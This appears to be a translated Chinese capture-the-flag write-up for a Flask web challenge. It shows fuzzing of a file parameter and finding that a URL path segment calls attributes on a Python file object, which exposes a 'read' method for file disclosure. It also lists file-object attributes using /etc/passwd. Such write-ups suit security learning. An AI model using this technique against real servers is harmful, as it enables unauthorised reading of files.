 # 保护区第二部分

挑战和之前一样。`private.txt`揭示了后端基础架构:

```
https://github.com/tiangolo/uwsgi-nginx-flask-docker
```

我对 URL 的各个部分做了大量的模糊处理:

```
?file=[FUZZ]public[FUZZ].txt[FUZZ]
```

一无所获。花了一段时间后，我去查了第二个网址:

```
[http://66.172.33.148:5008/check_perm/readable/?file=test](http://66.172.33.148:5008/check_perm/readable/?file=test)
```

与第一个问题不同的是，错误消息:

```
[Errno 2] No such file or directory: '/files/test'
```

所以我试图模糊输入，没有什么有用的。几个小时后，我得到了一个错误的网址:

```
[http://66.172.33.148:5008/check_perm/test/?file=public.txt](http://66.172.33.148:5008/check_perm/test/?file=public.txt)
```

回应是:

```
'_io.TextIOWrapper' object has no attribute 'test'
```

我在`TextIOWrapper`中，所以我运行下面的代码:

```
>>> print(dir(open('/etc/passwd')))['_CHUNK_SIZE', '__class__', '__del__', '__delattr__', '__dict__', '__dir__', '__doc__', '__enter__', '__eq__', '__exit__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '**__hash__**', '__init__', '__init_subclass__', '__iter__', '__le__', '__lt__', '__ne__', '__new__', '__next__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_checkClosed', '_checkReadable', '_checkSeekable', '_checkWritable', '_finalizing', 'buffer', 'close', 'closed', 'detach', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'line_buffering', 'mode', 'name', 'newlines', '**read**', 'readable', 'readline', 'readlines', 'reconfigure', 'seek', 'seekable', 'tell', 'truncate', 'writable', 'write', 'write_through', 'writelines']
```

`read`很好:

```
[http://66.172.33.148:5008/check_perm/read/?file=public.txt](http://66.172.33.148:5008/check_perm/read/?file=public.txt)
```

